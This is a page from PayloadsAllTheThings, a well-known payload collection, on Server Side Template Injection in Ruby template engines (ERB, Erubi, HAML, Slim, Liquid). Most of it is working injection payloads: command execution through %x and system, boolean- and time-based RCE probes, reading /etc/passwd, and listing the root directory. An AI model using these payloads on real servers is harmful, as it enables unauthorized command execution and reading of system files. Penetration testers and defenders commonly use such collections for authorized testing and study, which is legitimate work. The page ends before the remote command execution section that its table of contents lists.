

repository: MnifR/PayloadsAllTheThings · page: Server Side Template Injection/Ruby/index.html · generator: mkdocs

# Server Side Template Injection - Ruby

> Server-Side Template Injection (SSTI)  is a vulnerability that arises when an attacker can inject malicious code into a server-side template, causing the server to execute arbitrary commands. In Ruby, SSTI can occur when using templating engines like ERB (Embedded Ruby), Haml, liquid, or Slim, especially when user input is incorporated into templates without proper sanitization or validation.

## Summary

- [Templating Libraries](#templating-libraries)
- [Universal Payloads](#universal-payloads)
- [Ruby](#ruby)
    - [Ruby - Basic injections](#ruby---basic-injections)
    - [Ruby - Retrieve /etc/passwd](#ruby---retrieve-etcpasswd)
    - [Ruby - List files and directories](#ruby---list-files-and-directories)
    - [Ruby - Remote Command execution](#ruby---remote-command-execution)
- [References](#references)

## Templating Libraries

| Template Name | Payload Format |
|---------------|----------------|
| Erb           | `<%= %>`       |
| Erubi         | `<%= %>`       |
| Erubis        | `<%= %>`       |
| HAML          | `#{ }`         |
| Liquid        | `{{ }}`        |
| Mustache      | `{{ }}`        |
| Slim          | `#{ }`         |

## Universal Payloads

Generic code injection payloads work for many Ruby-based template engines, such as Erb, Erubi, Erubis, HAML and Slim.

To use these payloads, wrap them in the appropriate tag.

```ruby
%x('id') # Rendered RCE
File.read("Y:/A:/"+%x('id')) # Error-Based RCE
1/(system("id")&&1||0) # Boolean-Based RCE
system("id && sleep 5") # Time-Based RCE
```

## Ruby

### Ruby - Basic injections

**ERB**:

```ruby
<%= 7 * 7 %>
```

**Slim**:

```ruby
#{ 7 * 7 }
```

### Ruby - Retrieve /etc/passwd

```ruby
<%= File.open('/etc/passwd').read %>
```

### Ruby - List files and directories

```ruby
<%= Dir.entries('/') %>
```
